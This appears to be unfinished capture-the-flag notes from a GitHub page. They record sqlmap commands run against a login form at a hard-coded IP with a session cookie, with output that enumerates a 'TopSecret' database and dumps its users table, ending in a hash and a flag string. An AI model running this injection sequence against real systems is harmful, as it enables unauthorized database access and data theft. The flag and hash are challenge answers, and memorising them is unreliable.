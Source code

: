 To be done

--notes--
=========

sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username"

Is vulnerable

sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username" --dbs

[12:19:17] [INFO] fetching database names
available databases [2]:
[*] information_schema
[*] TopSecret



sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username" -D TopSecret --table

[12:21:02] [INFO] fetching tables for database: 'TopSecret'
Database: TopSecret
[1 table]
+-------+
| users |
+-------+

sqlmap -u 'http://162.243.171.85:80/find.php' --data='username=admin' --cookie='PHPSESSID=e6f1641f4aeb281f0cf7287dc4c9e6be6aee4c0901514340b51f76d406b5a7228adb4187843f80fc378434c575dd47794f4d25c7bca81659670d48533dde583f' -p "username" -D TopSecret -T users --dump




3f44e5dedf6b06b5da8c6e5ec7c0f4304f334a2ff2b1da3654942bab969e89765dae32faeabefdc0cf15d506c5146d96289dfa9929af7f60d65055d978e406ec

RC3-SECRETSS-6277598130
